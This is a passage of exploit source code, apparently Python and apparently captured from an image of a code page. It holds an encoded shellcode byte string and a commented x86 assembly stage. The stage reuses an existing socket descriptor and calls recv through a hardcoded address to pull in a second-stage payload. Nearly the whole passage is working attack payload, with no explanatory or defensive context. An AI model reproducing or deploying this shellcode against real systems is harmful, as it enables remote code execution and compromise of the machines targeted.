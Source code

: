     shellcode += b"\xaf\x9b\x7a\x30\x3b\x3b\xa6\xc0\xe8\xda\x2d"
    shellcode += b"\xce\x45\xa8\x69\xd3\x58\x7d\x02\xef\xd1\x80"
    shellcode += b"\xc4\x79\xa1\xa6\xc0\x22\x71\xc6\x51\x8f\xd4"
    shellcode += b"\xf7\x81\x70\x88\x5d\xca\x9d\xdd\xef\x91\xc9"
    shellcode += b"\x12\xc2\x29\x0a\x3d\x55\x5a\x38\xe2\xcd\xf4"
    shellcode += b"\x70\x6b\xc8\x03\x76\x46\xac\x9b\x89\x69\xcd"
    shellcode += b"\xb2\x4d\x3d\x9d\xac\x64\x3e\x76\x2c\x88\xeb"
    shellcode += b"\xd9\x7c\x26\x44\x9a\x2c\x86\x34\x72\x26\x09"
    shellcode += b"\x6a\x62\x49\xc3\x03\x09\xb0\x84\x21\xc4\xb4"
    shellcode += b"\x52\x5e\xda\xc8\x5b\x25\x53\x2e\x31\x49\x32"
    shellcode += b"\xf9\xae\xf0\x1f\x71\x4e\xfc\xb5\xfc\x50\x76"
    shellcode += b"\x3a\x01\x1e\x7f\x37\x11\xf7\x8f\x02\x4b\x5e"
    shellcode += b"\x8f\xb8\xe3\x3c\x02\x27\xf3\x4b\x3f\xf0\xa4"
    shellcode += b"\x1c\xf1\x09\x20\xb1\xa8\xa3\x56\x48\x2c\x8b"
    shellcode += b"\xd2\x97\x8d\x12\xdb\x5a\xa9\x30\xcb\xa2\x32"
    shellcode += b"\x7d\xbf\x7a\x65\x2b\x69\x3d\xdf\x9d\xc3\x97"
    shellcode += b"\x8c\x77\x83\x6e\xff\x47\xd5\x6e\x2a\x3e\x39"
    shellcode += b"\xde\x83\x07\x46\xef\x43\x80\x3f\x0d\xf4\x6f"
    shellcode += b"\xea\x95\x04\x3a\xb6\xbc\x8c\xe3\x23\xfd\xd0"
    shellcode += b"\x13\x9e\xc2\xec\x97\x2a\xbb\x0a\x87\x5f\xbe"
    shellcode += b"\x57\x0f\x8c\xb2\xc8\xfa\xb2\x61\xe8\x2e"
    
    recv_sc = (
            # get socket descriptor in esi
            b"\x54"                       # push esp
            b"\x58"                       # pop eax
            b"\x66\x05\x49\x01"           # add ax, 0x149
            b"\x66\x2d\x01\x01"           # sub ax, 0x101
            b"\x8b\x30"                   # mov esi, dword [eax]
    
            # make space on stack
            b"\x83\xec\x64"               # sub esp, 0x64
    
            # push recv args
            b"\x31\xdb"                   # xor ebx, ebx
            b"\x53"                       # push ebx, recv flags = 0
            b"\x66\x81\xc3\x04\x04"       # add bx, 0x404
            b"\x53"                       # push ebx, size = 0x404
            b"\x54"                       # push esp
            b"\x5b"                       # pop ebx
            b"\x83\xc3\x64"               # add ebx, 0x64
            b"\x53"                       # push ebx, buffer
            b"\x56"                       # push esi, sock descriptor
    
            # call recv
            b"\x3e\xa1\xac\x82\x90\x71"   # mov eax, [0x719082ac]
            b"\xff\xd0"                   # call eax 
            )
    